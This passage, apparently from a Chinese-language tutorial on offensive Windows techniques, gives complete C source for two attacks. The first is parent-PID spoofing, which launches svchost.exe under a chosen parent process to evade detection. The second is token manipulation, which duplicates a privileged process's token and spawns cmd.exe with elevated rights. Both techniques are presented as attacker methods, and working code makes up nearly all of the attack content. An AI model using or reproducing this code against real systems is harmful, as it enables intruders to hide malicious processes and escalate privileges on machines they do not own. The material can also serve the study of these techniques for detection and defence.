  **流程:  **恶意进程 -> 创建svchost并挂起状态 -> 修改svchost的父进程PID ->恢复svchost运行 ->
svchost运行欺骗的父pid进程  

  * 

    
    
    ppid_spoof.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    DWORD targetPID; // The PID of the process you want to spoof as the parent    printf("Enter the target PID to spoof as parent: ");    scanf("%d", &targetPID);  
        HANDLE hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);    if (!hTargetProcess) {        printf("Failed to open target process.\n");        return 1;    }  
        SIZE_T size;    STARTUPINFOEX siex = { sizeof(siex) };    PROCESS_INFORMATION pi;  
        // Set up the attribute list for the parent process spoofing    InitializeProcThreadAttributeList(NULL, 1, 0, &size);    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &size);  
        // Set the parent process to the target process    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hTargetProcess, sizeof(HANDLE), NULL, NULL);  
        // Create the child process (e.g., svchost.exe)    if (!CreateProcess("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFO)&siex, &pi)) {        printf("Failed to create child process.\n");        HeapFree(GetProcessHeap(), 0, siex.lpAttributeList);        CloseHandle(hTargetProcess);        return 1;    }  
        // Cleanup    CloseHandle(pi.hProcess);    CloseHandle(pi.hThread);    HeapFree(GetProcessHeap(), 0, siex.lpAttributeList);    CloseHandle(hTargetProcess);  
        return 0;}

 **11\. Token Manipulation**

 ** **说明:**** Token
Manipulation是一种攻击者从高特权进程复制令牌，然后使用该令牌启动具有高特权的新进程的技术。这通常用于权限提升攻击。

  * 

    
    
    token_manip.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    HANDLE hToken, hNewToken, hProcess;    DWORD processID;  
        // Assuming you've already obtained the PID of svchost.exe or any high-privileged process    printf("Enter the PID of the high-privileged process (e.g., svchost.exe): ");    scanf("%d", &processID);  
        // Open the target process    hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, processID);    if (!hProcess) {        printf("Failed to open target process.\n");        return 1;    }  
        // Get the process token    if (!OpenProcessToken(hProcess, TOKEN_DUPLICATE, &hToken)) {        printf("Failed to obtain process token.\n");        CloseHandle(hProcess);        return 1;    }  
        // Duplicate the token    if (!DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hNewToken)) {        printf("Failed to duplicate token.\n");        CloseHandle(hToken);        CloseHandle(hProcess);        return 1;    }  
        // Use the duplicated token to run a new process with elevated privileges    STARTUPINFO si = { sizeof(STARTUPINFO) };    PROCESS_INFORMATION pi;    if (!CreateProcessWithTokenW(hNewToken, 0, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)) {        printf("Failed to create process with elevated token.\n");        CloseHandle(hNewToken);        CloseHandle(hToken);        CloseHandle(hProcess);        return 1;    }  
        // Cleanup    CloseHandle(pi.hProcess);    CloseHandle(pi.hThread);    CloseHandle(hNewToken);    CloseHandle(hToken);    CloseHandle(hProcess);  
        return 0;}
